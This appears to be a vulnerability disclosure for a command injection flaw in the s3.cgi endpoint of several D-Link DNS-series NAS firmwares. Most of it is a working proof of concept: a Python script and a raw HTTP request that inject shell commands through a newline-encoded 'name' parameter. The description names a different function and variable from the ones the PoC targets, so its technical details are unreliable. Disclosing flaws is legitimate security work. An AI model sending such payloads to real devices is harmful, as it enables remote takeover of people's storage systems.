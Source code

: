 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)
# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_s3_modify function of the file /cgi-bin/s3.cgi.  The variable `f_job_name`is passed from a POST request and is assigned to `v10` via the `snprintf` function at line 35 and invoked by the `popen` command, it can lead to command execution. 
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723734074971-288f52d5-e455-4637-9b16-9489fbb0cd3a.png#averageHue=%23fefdfd&clientId=u1ba2ba9a-8e66-4&from=paste&height=955&id=BRpmE&originHeight=955&originWidth=1668&originalType=binary&ratio=1&rotation=0&showTitle=false&size=96320&status=done&style=none&taskId=u308fb8ee-9a04-4189-9fe8-0c939738875&title=&width=1668)
# POC
```java
import requests

url = "http://192.168.0.32/cgi-bin/s3.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_untar&name=%0atouch%09/tmp/123%0a.tar.tgz&path=122"
response = requests.post(url, headers=headers, data=data)
print(response.text)

```

```java
POST /cgi-bin/s3.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://192.168.0.32
Connection: close
Cookie: username=admin
Priority: u=1

cmd=cgi_untar&name=%0atouch%09/tmp/123%0a.tar.tgz&path=122
```

